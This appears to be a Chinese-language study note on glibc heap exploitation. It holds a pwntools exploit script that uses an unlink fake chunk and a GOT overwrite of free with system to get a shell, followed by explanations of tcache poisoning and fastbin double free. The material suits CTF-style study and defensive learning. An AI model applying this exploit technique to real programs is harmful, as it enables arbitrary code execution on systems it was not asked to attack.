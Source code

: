 ```python
elf = ELF(elf_path)
libc = ELF(libc_path)
backdoors = 0x400d7f

create_heap(0x40, b'aaaa')
create_heap(0x80, b'bbbb')
create_heap(0x80, b'cccc')
create_heap(0x10, b'/bin/sh\x00')

ptr = 0x6020a8
fd = ptr - 0x18
bk = ptr - 0x10
fakechunk = p64(0) + p64(0x41) + p64(fd) + p64(bk)
fakechunk += b'\x00' * 0x20 + p64(0x40) + p64(0x90)
edit_heap(0, len(fakechunk), fakechunk)
delete_heap(1)

payload = b'\x00' * 0x10 + p64(0x40) + p64(elf.got['free'])
edit_heap(0, len(payload), payload)
show_heap()

p.recvuntil(b'0 : ')
free_addr = u64(p.recv(6).ljust(8, b'\x00'))
libc.address = free_addr - libc.symbols['free']
system_addr = libc.symbols['system']
binsh_addr = next(libc.search(b'/bin/sh'))
log.info(f'free_addr: {hex(free_addr)}')
log.info(f'system_addr: {hex(system_addr)}')

edit_heap(0, 0x8, p64(system_addr))
delete_heap(3)

pause()  

p.interactive()
```

## teache bin
### teache poisoning
即修改 teache 中的 next ，不需要伪造任何 chunk 结构即可实现 malloc 到任意地址~~，不过在 2.29 后加入了 key 指针，构造的时候需要注意 key 小于 0 后就不会在 bins 中提取地址来作为 malloc 的位置。~~
总体而言和 fast bins attack 类似，但不像 fast bins attack 一样需要位置上有一个符合 fast bins 条件的 size 。


## Fast bin
fastbin
释放前 
![[Pasted image 20250427152358.png]]
释放后
![[Pasted image 20250427152401.png]]
![[Pasted image 20250427152405.png]]
### Fastbin Double Free
如果连续两次free同一个fastbin chunk，会触发double free检测导致报错，但若是先 free chunk1 再 free chunk2 ，然后再 free chunk1 则不会报错，同时还会使 fastbin 的链表变成下面这样
![[Pasted image 20250427152408.png]]
原因在与
	1. fastbin 的 chunk 被 free 后 next_chunk 的 pre_inuse 位不会被清空
	2. fastbin 在执行 free 的时候仅验证了 main_arena 直接指向的块，即链表指针头部的块。对于链表后面的块，并没有进行验证。